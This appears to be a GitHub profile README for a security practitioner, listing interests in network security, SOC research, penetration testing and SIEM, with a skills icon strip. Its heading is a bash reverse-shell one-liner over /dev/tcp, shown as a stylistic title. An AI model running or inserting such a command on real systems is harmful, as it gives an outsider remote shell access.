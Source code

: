  <h1 align="center"> /bin/bash -i >& /dev/tcp/Dimw1t/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

   &lt;configuration&gt;

🖥️ Systems Administration

🛡️ Network Security

🔍 Soc Researcher

👾 Ethical Hacking

💥 Penetration Testing

 ⚙️ SIEM Configuration

   &lt;/configuration&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>





